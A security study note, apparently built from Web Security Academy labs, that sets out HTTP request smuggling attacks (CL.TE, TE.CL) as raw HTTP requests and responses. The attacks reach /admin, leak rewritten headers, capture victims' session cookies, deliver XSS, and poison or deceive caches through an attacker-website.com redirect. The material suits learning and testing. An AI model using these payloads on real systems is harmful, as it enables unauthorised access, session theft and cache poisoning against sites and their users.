


# Bypass front-end security controls 

In some applications, the front-end web server is used to implement some security controls, deciding whether to allow individual requests to be processed. Allowed requests are forwarded to the back-end server, where they are deemed to have passed through the front-end controls.

Suppose an application uses the front-end server to implement access control restrictions, only forwarding requests if the user is authorized to access the requested URL. The back-end server then honors every request without further checking. In this situation, an [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) vulnerability can be used to bypass the [Access control security models](Access%20control%20security%20models.md), by smuggling a request to a restricted URL and exploiting a [Access control vulnerabilities](Access%20control%20vulnerabilities.md).

>[!warning]
>The backend accepts only requests to `/admin` coming from localhost

## CL.TE

Attack:
```http
POST / HTTP/1.1
Host: 0ae300050316c7b48009dfa800160065.web-security-academy.net
Cookie: session=6mzG5fVnhsS7E03xWxhN3E9BRW3nf4iW
Connection: close
Content-Length: 66
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: localhost
Content-Length: 3

1
```

Next request:
```http
POST /admin HTTP/1.1
Host: localhost
Content-Length: 3

1GET /404 HTTP/1.1
Host: 0ae300050316c7b48009dfa800160065.web-security-academy.net
Cookie: session=6mzG5fVnhsS7E03xWxhN3E9BRW3nf4iW
Connection: close
```

## TE.CL

Attack: 
```http
POST / HTTP/1.1
Host: 0a760099041742d2814f617a000300b2.web-security-academy.net
Cookie: session=sa4mrB1fNXJCteO58Hux3rgMtC5ef7o0
Connection: close
Content-Length: 4
Transfer-Encoding: chunked

45
POST /admin HTTP/1.1
Host: localhost
Content-Length: 150

foo=bar
0
```

Next request:
```http
POST /admin HTTP/1.1
Host: localhost
Content-Length: 150

foo=bar
0POST / HTTP/1.1
Host: 0a760099041742d2814f617a000300b2.web-security-academy.net
Cookie: session=sa4mrB1fNXJCteO58Hux3rgMtC5ef7o0
Connection: close
Content-Length: 4
Transfer-Encoding: chunked

45
```

# Revealing front-end request rewriting

In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, like:
- adding some additional request headers
- terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
- add an `X-Forwarded-For` header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user; or
- add some sensitive information that is of interest for other attacks.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

1. Find a POST request that reflects the value of a request parameter into the application's response.
2. Shuffle the parameters so that the reflected parameter appears last in the message body.
3. Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

>[!tip]
>Since the final request is being rewritten, you don't know how long it will end up. The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

Reflection point:


Smuggled the request (CL.TE) and leaked the re-written headers:
```http
POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Cookie: session=ZiSVxStDPclB10AHJWN8a3GyTGPoN2hv
Content-Length: 117
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Connection: close

0

POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Content-Length: 250

search=
```

>[!note]-
>The smuggled request would be:
>```http
>POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Content-Length: 250
>
>search=POST / HTTP/1.1
X-mmOhiB-Ip: 93.51.54.187
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
>...

Server response:
```html
<section class=blog-header>
<h1>0 search results for 'POST / HTTP/1.1
X-mmOhiB-Ip: 93.51.54.187
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Cookie: session=ZiSVxStDPclB10AHJWN8a3GyTGPoN2hv
Content-Length: 117
Content-Type: application/x-www-form-urlencoded
Transfer-Encod'</h1>
<hr>
</section>
```

Smuggled the backend and accessed `/admin`:

```http
POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Cookie: session=ZiSVxStDPclB10AHJWN8a3GyTGPoN2hv
Content-Length: 187
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Connection: close

0

POST /admin HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
X-mmOhiB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x
```

# Bypassing client authentication

Some sites implement a form of mutual TLS authentication, where clients must also present a certificate to the server. In this case, the client's CN is often a username or suchlike, which can be used in the back-end application logic as part of an access control mechanism, for example.

The component that authenticates the client typically passes the relevant details from the certificate to the application or back-end server via one or more non-standard HTTP headers. For example, front-end servers sometimes append a header containing the client's CN to any incoming requests:
```http
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

Assuming you're able to send the right combination of headers and values, this may enable you to bypass access controls.
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

# Capturing other user' requests

If the application contains any kind of functionality that allows you to store and later retrieve textual data, you can potentially use this to capture the contents of other users' requests. These may include session tokens or other sensitive data submitted by the user. Suitable functions to use as the vehicle for this attack would be comments, emails, profile descriptions, screen names, and so on.

To perform the attack, you need to smuggle a request (CL.TE) that submits data to the storage function, with the parameter containing the data to store positioned last in the request.

```http
POST / HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 339

0

POST /post/comment HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
Cookie: session=NgBOL0Gf1fID2y1JEwm8DnFs7grBqOXg
Content-Length: 300
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=5LyZ1D9NmpeqyWEB6V34fEyUfNKpiJqC&postId=10&name=name&email=email%40email.com&website=&comment=
```

The `Content-Length` header of the smuggled request indicates that the body will be 300 bytes long, but we've only sent 99 bytes. In this case, the back-end server will wait for the remaining bytes before issuing the response:

```http
POST /post/comment HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
Cookie: session=NgBOL0Gf1fID2y1JEwm8DnFs7grBqOXg
Content-Length: 300
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=5LyZ1D9NmpeqyWEB6V34fEyUfNKpiJqC&postId=10&name=name&email=email%40email.com&website=&comment=GET / HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
...
user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
...
cookie: victim-fingerprint=YA26Kq6Y8BOjhhD1kjJZTZl59VEbH92H; secret=7i6KmAUvmLS0DoFAGcelXmF52ybujwOP; session=3S5bRRhvlI0y4qF3WyxXrAa80QzZsulz
```



>[!warning]
>One limitation with this technique is that it will generally **only capture data up until the parameter delimiter** that is applicable for the smuggled request. For URL-encoded form submissions, this will be the & character, meaning that the content that is stored from the victim user's request will end at the first &, which might even appear in the query string

# Using request smuggling to exploit reflected XSS

If an application is vulnerable to [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) and also contains [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md), you can use a request smuggling attack to hit other users of the application. 

This approach is superior to normal exploitation of reflected XSS in two ways:

- No user interaction with victims
- It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers

Identified an XSS in the `User-Agent`:

```http
GET /post?postId=9 HTTP/1.1
Host: 0a7d0039039ae2008000c69c008b00a5.web-security-academy.net
Cookie: session=drGdWK3wPKR02cvmDA56fah3sxM6k8pp
User-Agent: foo bar
Connection: close


HTTP/1.1 200 OK
...
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
<input required type="hidden" name="csrf" value="WSM6wDKdBfoen3ZYcSd4YZE4v8V9bVQ8">
<input required type="hidden" name="userAgent" value="foo bar">
<input required type="hidden" name="postId" value="9">
<label>
```

Exploited a request smuggling (CL.TE) to poison the server queue with a malicious request:

```http
POST / HTTP/1.1
Host: 0a7d0039039ae2008000c69c008b00a5.web-security-academy.net
Cookie: session=drGdWK3wPKR02cvmDA56fah3sxM6k8pp
Content-Length: 208
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
Host: 0a7d0039039ae2008000c69c008b00a5.web-security-academy.net
Cookie: session=drGdWK3wPKR02cvmDA56fah3sxM6k8pp
User-Agent: ">
Connection: close
```

# Using request smuggling to turn an on-site redirect into an open redirect

Many applications perform on-site redirects from one URL to another and place the hostname from the request's `Host` header into the redirect URL. This [Host Header injection](Host%20Header%20attacks.md) can be exploited in conjunction with a [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) attack to redirect other users to an external domain and obtain [Open Redirection](Open%20Redirection.md).

Poisoned the server queue:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

User requesting a specific resource get poisoned and redirected to an arbitrary domain:

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com


HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

## Using request smuggling to perform web cache poisoning

It might be possible to exploit [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) to perform a [Web Cache Poisoning Attacks](Web%20Cache%20Poisoning.md#Web%20Cache%20Poisoning%20Attacks). If any part of the front-end infrastructure performs caching of content (generally for performance reasons), then it might be possible to poison the cache with the off-site redirect response.

Request sent to the front-end server:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

The smuggled request reaches the back-end server, which responds as before with the off-site redirect. The front-end server caches this response against what it believes is the URL in the second request, which is `/static/include.js`:

```http
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

## Using request smuggling to perform web cache deception

You can leverage HTTP request smuggling to perform [Web Cache Deception](Web%20Cache%20Deception.md)

The attacker smuggles a request that returns some sensitive user-specific content:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

The next request from another user that is forwarded to the back-end server will be appended to the smuggled request, including session cookies and other headers:

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

The back-end server responds to this request in the normal way. The URL in the request is for the user's private messages and the request is processed in the context of the victim user's session. The front-end server caches this response against what it believes is the URL in the second request, which is `/static/some-image.png`

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

The attacker then visits the static URL and receives the sensitive content that is returned from the cache.

>[!warning]
>An important caveat here is that the attacker doesn't know the URL against which the sensitive content will be cached, since this will be whatever URL the victim user happened to be requesting when the smuggled request took effect. The attacker might need to fetch a large number of static URLs to discover the captured content.
